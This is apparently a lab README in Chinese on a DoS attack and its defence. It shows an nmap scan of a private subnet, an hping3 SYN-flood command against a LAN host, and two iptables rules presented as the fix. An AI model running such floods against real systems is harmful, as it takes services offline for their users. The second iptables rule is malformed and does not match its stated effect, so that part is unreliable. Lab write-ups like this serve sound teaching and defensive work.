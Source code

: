 # DoS攻擊與防護
## 攻擊端
攻擊端先利用nmap掃描啟動中的ip和正在啟用的端口 
```
nmap -O -p 80 192.168.0.* 
```
> 掃描192.168.0.0到192.168.0.255之間port為80的主機

例如找到192.168.0.121有開放80端口後開始使用hping3攻擊開始攻擊 
```
hping3 --flood -S -p 80 -d 120 -v 192.168.0.121 
```
> 利用泛洪方式攻擊192.168.0.121的80端口發送120BYTES大小的syn封包
  
## 防護端
### Linux的iptables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 10 -j REJECT  
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --update --second 6
```
上述兩個指令表達是在6秒內相同IP請求連線次數超過10個即拒絕回應

## 影片說明
本次有實際防範影片，駭客用上述hping3的攻擊指令導致Http Server無法服務，但伺服器有在防火牆上做上述過濾規則，導致只有駭客IP被回絕的成效。   
成果影片：[DoS防護](https://www.youtube.com/watch?v=Nv8pB9XkcDQ)